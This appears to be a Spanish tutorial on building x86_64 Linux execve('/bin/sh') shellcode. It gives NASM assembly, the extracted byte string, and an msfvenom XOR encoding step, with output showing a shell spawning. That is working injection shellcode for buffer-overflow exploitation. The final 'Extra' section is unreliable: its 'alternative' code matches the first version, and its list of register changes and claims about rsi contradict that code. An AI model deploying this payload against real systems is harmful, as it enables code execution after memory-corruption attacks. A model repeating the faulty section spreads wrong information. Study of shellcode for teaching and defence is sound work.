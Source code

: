 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

Codigo en assembly:
```asm
global _start 
section .text
_start:
    xor rax, rax        ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax            ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f  ; /bin//sh (8 bytes, o sea, alineado)
    push rbx                     ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp                 ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax                ;    otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp            ;    rdx = 0x000000000000000 (Tercer argumento)

    push rdi          ;  dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp      ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59       ;  Llamamos a execve
    syscall           ; lo ejecutamos
```
Para que entendamos como está puesto todo:  
- La pila  
```
| rsp   |    0x7fffffffdea0  | 0x7fffffffdea8     | 0x7fffffffdeb0               |    0x7fffffffdeb8 |
| ---   | ------------------ | ------------------ | ---------------------------- | ----------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 
```
- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```

------------------

Compilamos esto a un objeto y lo pasamos a una cadena de bytes.
```bash
└─$ nasm -f elf64 execv.asm -o execv.o
└─$ ld execv.o -o execv
└─$ ./execv
$ whoami
cucuxii
```

```bash
└─$ for i in $(objdump -d execv.o -M intel | grep "^ " | cut -f2); do echo -n "\\\x$i"; done                  
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
└─$ echo -ne "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" | msfvenom -f elf -e x64/xor -a x64 --platform linux > demo
└─$ ./demo
$ whoami
cucuxii
```
--------------------

## Extra: Otra version que funciona

Esto lo meto para ver que pueden haber muchas versiones de lo mismo...
```asm
global _start 
section .text

_start:
    xor rax, rax 
    push rax                    ; Colocar NULL en la pila
    mov rbx, 0x68732f2f6e69622f ; rbx = /bin//sh
    push rbx                    ; Meter "/bin//sh" en la pila
    mov rdi, rsp                ; Colocar la dirección de "/bin//sh" en rdi
    
    push rax                    ; Meter un 0x0 (NULL) en la pila
    mov rdx, rsp                ; Colocar NULL en rdx
    
    push rdi                    ; Colocar puntero a "/bin//sh" en la pila
    mov rsi, rsp                ; Meter el puntero en rsi
    
    add rax, 59                 ; Cargar el número de la llamada al sistema de execve en rax (59)
    syscall                     ; Realizar la llamada al sistema
```
- mov rdi, rsp se ha cambiado a mov rsi, rsp. Ahora, la dirección de /bin//sh se carga en rsi en lugar de rdi.
- mov rdx, rsp se ha cambiado a mov rax, rsp. Ahora, NULL se carga en rax en lugar de rdx.
- mov rsi, rsp se ha cambiado a mov rdi, rsp. Ahora, la dirección de /bin//sh se carga en rdi en lugar de rsi.

La razón por la que esto funciona es que la llamada al sistema execve toma los siguientes argumentos en los registros:

- rax: El número de la llamada al sistema.
- rdi: El primer argumento (en este caso, la dirección de la cadena /bin//sh).
- rsi: El segundo argumento (en este caso, NULL).
- rdx: El tercer argumento (en este caso, NULL).
